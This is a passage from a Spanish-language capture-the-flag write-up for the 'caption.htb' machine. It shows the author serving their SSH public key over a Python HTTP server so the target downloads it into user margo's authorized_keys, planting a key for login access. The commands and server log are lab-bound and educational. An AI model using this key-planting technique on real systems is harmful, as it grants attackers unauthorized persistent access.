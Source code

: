 Utilizando esta clave privada no podemos iniciar sesión por SSH.
```console
$ ssh -i /home/pointedsec/.ssh/id_rsa margo@caption.htb
margo@caption.htb's password: 
```

Vamos a añadir mi clave pública al `authorized_keys` de `margo` para intentar iniciar sesión de esta manera.

Nos copiamos mi clave pública como `authorized_keys`
```console
$ cp /home/pointedsec/.ssh/id_rsa.pub authorized_keys
```

La servimos por el puerto 8081.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Ahora la descargamos en la máquina víctima.
![Write-up Image](images/Screenshot_18.png)

Vemos que me llega una solicitud.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.230.251 - - [15/Sep/2024 19:29:55] "GET /authorized_keys HTTP/1.1" 200 -
```

Podemos comprobar que todo ha salido bien.
![Write-up Image](images/Screenshot_19.png)
